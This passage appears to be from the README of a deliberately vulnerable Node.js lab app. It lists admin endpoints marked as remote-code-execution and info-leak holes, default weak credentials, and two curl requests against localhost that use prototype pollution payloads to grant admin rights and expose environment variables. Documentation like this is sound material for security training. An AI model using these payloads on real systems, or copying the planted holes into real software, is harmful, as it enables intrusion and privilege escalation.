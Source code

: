 ### Admin (`/admin`) - Requires Admin Authentication
| Method | Endpoint | Description | Vulnerability |
|--------|----------|-------------|---------------|
| `POST` | `/admin/execute` | Execute commands | 🔴 **RCE** |
| `POST` | `/admin/eval` | Evaluate JavaScript | 🔴 **RCE** |
| `GET` | `/admin/system-info` | System information | 🔴 **Info Leak** |

## 🔓 Default Credentials

| Role | Email | Password |
|------|-------|----------|
| Admin | `admin@example.com` | `admin123` |
| User | `user@example.com` | `user123` |

## 💥 Attack Demonstrations

### 1. Prototype Pollution to Admin Escalation

**Register user with prototype pollution**
```bash
curl -X POST http://localhost:3000/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "email": "attacker@example.com",
    "password": "attack123",
    "name": "Attacker",
    "profile": {
      "__proto__": {
        "isAdmin": true,
        "exposeEnv": true
      }
    }
  }'
```

**Search users with prototype pollution**
```bash
curl -X POST http://localhost:3000/users/search \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "filters": {
      "__proto__": {
        "isAdmin": true,
        "exposeEnv": true
      }
    }
  }'
```
